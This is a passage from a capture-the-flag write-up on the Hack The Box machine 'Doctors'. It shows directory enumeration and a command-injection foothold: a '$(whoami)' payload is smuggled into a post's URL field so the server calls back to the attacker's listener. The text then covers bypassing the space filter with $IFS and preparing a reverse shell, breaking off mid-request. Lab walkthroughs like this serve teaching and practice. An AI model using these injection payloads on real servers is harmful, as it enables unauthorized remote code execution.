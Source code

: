 ```
/archive              (Status: 200) [Size: 101]
/home                 (Status: 302) [Size: 245] [--> http://doctors.htb/login?next=%2Fhome]
/.                    (Status: 302) [Size: 237] [--> http://doctors.htb/login?next=%2F]
/reset_password       (Status: 200) [Size: 3493]
```

## Foothold
### Method 1 - XSS RCE
After we setup an account we can see that not lot of functionalities are available in this site.  
Let's try to create a new post and see if the XSS works.  
As we can see if we type in comment our url, we get hit back by the curl user-agent:
```
[root@kali www ]$ nc -lvnp 80                              
listening on [any] 80 ...                                  
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.209] 43428                                                           
GET / HTTP/1.1                                             
Host: 10.10.14.6                                           
User-Agent: curl/7.68.0                                    
Accept: */*      
```
Now, we can assume that on the server side, we have a function similar to ```os.exec('curl [... SNIP ...]')``` now let's try to inject code here and see the response on our listening python http server:  
```
POST /post/new HTTP/1.1
Host: doctors.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://doctors.htb
Connection: close
Referer: http://doctors.htb/post/new
Cookie: session=.eJwlzjtuw0AMANG7bJ2CP5FcX0YgRQo2AiSAZFdB7m4FKWeq9zPW_ejzPm7P49UfY33UuA0HCm7VxZfcwBUlYisEtpSULWZmO0-rLHcF9mybM2thmtFihrpoqm6EEQ5oVWKRWgxCGlXGXOVtDRLTsd2JEVCRiKBoXJDX2ce_5i-389jX5_dnf10jIkkC3aWNK4Vpb-HZjH7JMMQbopzH7xuMYT5y.YnKHoQ.lTc8QwuXh-OJWjrjlo7CQF2LmaE
Upgrade-Insecure-Requests: 1

title=asd&content=http://10.10.14.6/$(whoami)&submit=Post
```
As we can see on our webserver we get command execution:  
```
10.10.10.209 - - [04/May/2022 16:28:41] code 404, message File not found
10.10.10.209 - - [04/May/2022 16:28:41] "GET /web HTTP/1.1" 404 -
```
Now let's try to trick this function to obtain a shell.  
As we can notice space characters are banned, instead we can use $IFS instead of spaces to trick the filter.  
However, if we try to upload our usual bash reverse shell we get an execution but the shell drops instantly.  
What we can try to do is to put the shell inside a file, add execution permission, and execute the file:
```
POST /post/new HTTP/1.1
Host: doctors.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
```